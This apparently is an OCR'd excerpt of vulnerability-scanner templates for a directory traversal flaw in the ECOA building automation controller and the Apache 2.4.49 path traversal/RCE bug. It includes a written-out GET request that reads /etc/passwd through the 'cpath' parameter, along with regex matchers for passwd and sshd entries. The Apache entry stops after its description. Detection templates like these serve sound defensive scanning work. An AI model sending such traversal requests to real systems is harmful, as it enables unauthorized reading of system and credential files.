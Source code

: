 **Type - regex**

- regex
  1. root:.\*:0:0:
  2. sshd:[x*]
  3. root:[$]
- part - body

---

# ECOA Building Automation System - Directory Traversal Content Disclosure

## Description

- The ECOA BAS controller suffers from a directory traversal content disclosure vulnerability. Using the GET parameter cpath in File Manager (fmangersub), attackers can disclose directory content on the affected device
- severity - high
- tags - cve,cve2021,ecoa,lfi,traversal

## Requests

### Step - 1

```
GET /fmangersub?cpath=../../../../../../../etc/passwd HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:

---

# Apache 2.4.49 - Path Traversal and Remote Code Execution

## Description

- A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49. An attacker could use a path traversal attack to map URLs to files outside the expected document root. If files outside of the document root are not protected by "require all denied" these requests can succeed. Additionally, this flaw could leak the source of interpreted files like CGI scripts. This issue is known to be exploited in the wild. This issue only affects Apache 2.4.49 and not earlier versions.
- severity - high
- tags - cve,cve2021,lfi,rce,apache,misconfig,traversal,kev
